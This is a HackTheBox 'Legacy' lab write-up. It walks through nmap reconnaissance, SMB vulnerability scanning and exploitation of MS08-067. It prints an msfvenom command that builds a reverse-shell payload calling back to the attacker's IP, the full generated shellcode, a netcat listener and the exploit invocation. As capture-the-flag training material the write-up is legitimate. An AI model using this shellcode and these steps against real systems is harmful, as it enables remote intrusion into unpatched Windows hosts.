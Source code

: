 ```yaml
---
title: "HackTheBox - Legacy"
last_modified_at: 2022-11-02
categories:
  - HTB
tags:
  - HTB
  - HackTheBox
  - Legacy
---
```


![Legacy](https://user-images.githubusercontent.com/66146701/199536644-eb807339-f3e9-4f1a-80f3-2a8a9ff06682.png)

## Recon
```
sudo nmap -Pn -A -sSV 10.129.163.162
```
![image](https://user-images.githubusercontent.com/66146701/199537749-2e38feaf-a936-4f35-8e76-b1e130ba686e.png)

```
sudo nmap -sU -p- --min-rate 10000 10.129.163.162
```
![image](https://user-images.githubusercontent.com/66146701/199538688-f11e4875-cd0e-4887-9e80-014cc6ab7898.png)

## SMB
Null Auth

Neither `smbmap` nor `smbclient` show any ability to log in without authentication:

![image](https://user-images.githubusercontent.com/66146701/199601574-93093357-ab5f-4ccd-ba51-a47f8cba58cb.png)

## Vulnerabilities

Will use the `nmap scripts` to check for vulnerabilities.

```
ls /usr/share/nmap/scripts/ | grep smb | grep vuln
```

![image](https://user-images.githubusercontent.com/66146701/199602165-83fb4984-f85b-45e7-9081-0594da546113.png)

```
sudo nmap --script smb-vuln* -p 445 10.129.163.162
```

![image](https://user-images.githubusercontent.com/66146701/199602333-0b8607f8-7af5-4ff8-bfac-dad8e46e686a.png)

It looks like this box is vulnerable to two infamous SMB exploits, MS-08-067 (made famous by Conficker) and MS-17-010 (made famous by Shadow Brokers).

## MS-08-067 | CVE-2008-4250

Reference: https://learn.microsoft.com/en-us/security-updates/SecurityBulletins/2008/ms08-067?redirectedfrom=MSDN

We are using this github <a href="https://github.com/k4u5h41/MS08-067.git">script</a>. 

### Shellcode Generation :
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```
`-p windows/shell_reverse_tcp` - This will connect back to me with a shell.
    
`LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread` - defining the variables for the payload - my ip, the port, and how to exit.

`-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"` - The bad characters not to use.

`-f py` - Output in python format.

`-v shellcode` - Have the code set the variable `shellcode`, instead of the default, `buf`. I want this to match what it’s called in the code I’m using.

`-a x86` and `--platform windows` - Describing the environment I’m attacking.

```
root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of py file: 1872 bytes
shellcode =  ""
shellcode += "\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e"
shellcode += "\x81\x76\x0e\x92\xab\xaa\xc8\x83\xee\xfc\xe2\xf4"
shellcode += "\x6e\x43\x28\xc8\x92\xab\xca\x41\x77\x9a\x6a\xac"
shellcode += "\x19\xfb\x9a\x43\xc0\xa7\x21\x9a\x86\x20\xd8\xe0"
shellcode += "\x9d\x1c\xe0\xee\xa3\x54\x06\xf4\xf3\xd7\xa8\xe4"
shellcode += "\xb2\x6a\x65\xc5\x93\x6c\x48\x3a\xc0\xfc\x21\x9a"
shellcode += "\x82\x20\xe0\xf4\x19\xe7\xbb\xb0\x71\xe3\xab\x19"
shellcode += "\xc3\x20\xf3\xe8\x93\x78\x21\x81\x8a\x48\x90\x81"
shellcode += "\x19\x9f\x21\xc9\x44\x9a\x55\x64\x53\x64\xa7\xc9"
shellcode += "\x55\x93\x4a\xbd\x64\xa8\xd7\x30\xa9\xd6\x8e\xbd"
shellcode += "\x76\xf3\x21\x90\xb6\xaa\x79\xae\x19\xa7\xe1\x43"
shellcode += "\xca\xb7\xab\x1b\x19\xaf\x21\xc9\x42\x22\xee\xec"
shellcode += "\xb6\xf0\xf1\xa9\xcb\xf1\xfb\x37\x72\xf4\xf5\x92"
shellcode += "\x19\xb9\x41\x45\xcf\xc3\x99\xfa\x92\xab\xc2\xbf"
shellcode += "\xe1\x99\xf5\x9c\xfa\xe7\xdd\xee\x95\x54\x7f\x70"
shellcode += "\x02\xaa\xaa\xc8\xbb\x6f\xfe\x98\xfa\x82\x2a\xa3"
shellcode += "\x92\x54\x7f\x98\xc2\xfb\xfa\x88\xc2\xeb\xfa\xa0"
shellcode += "\x78\xa4\x75\x28\x6d\x7e\x3d\xa2\x97\xc3\xa0\xc2"
shellcode += "\x9c\xa5\xc2\xca\x92\xaa\x11\x41\x74\xc1\xba\x9e"
shellcode += "\xc5\xc3\x33\x6d\xe6\xca\x55\x1d\x17\x6b\xde\xc4"
shellcode += "\x6d\xe5\xa2\xbd\x7e\xc3\x5a\x7d\x30\xfd\x55\x1d"
shellcode += "\xfa\xc8\xc7\xac\x92\x22\x49\x9f\xc5\xfc\x9b\x3e"
shellcode += "\xf8\xb9\xf3\x9e\x70\x56\xcc\x0f\xd6\x8f\x96\xc9"
shellcode += "\x93\x26\xee\xec\x82\x6d\xaa\x8c\xc6\xfb\xfc\x9e"
shellcode += "\xc4\xed\xfc\x86\xc4\xfd\xf9\x9e\xfa\xd2\x66\xf7"
shellcode += "\x14\x54\x7f\x41\x72\xe5\xfc\x8e\x6d\x9b\xc2\xc0"
shellcode += "\x15\xb6\xca\x37\x47\x10\x4a\xd5\xb8\xa1\xc2\x6e"
shellcode += "\x07\x16\x37\x37\x47\x97\xac\xb4\x98\x2b\x51\x28"
shellcode += "\xe7\xae\x11\x8f\x81\xd9\xc5\xa2\x92\xf8\x55\x1d"
```
Will take this shellcode into the script, and paste it in replacing the default.

### Guess Version:
The exploit requires that I know the version of Windows and the Language pack:

```
Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)

```
### Run Exploit

create a `nc` listner
```
nc -nlvp 443
```

```
python3 exploit.py 10.129.134.210 6 445
```
![image](https://user-images.githubusercontent.com/66146701/199604901-5a0d00ba-3fd0-48cb-a5de-037998c8eb33.png)

![image](https://user-images.githubusercontent.com/66146701/199608000-106b9a6f-e3e5-49ba-b916-16fe256984c5.png)

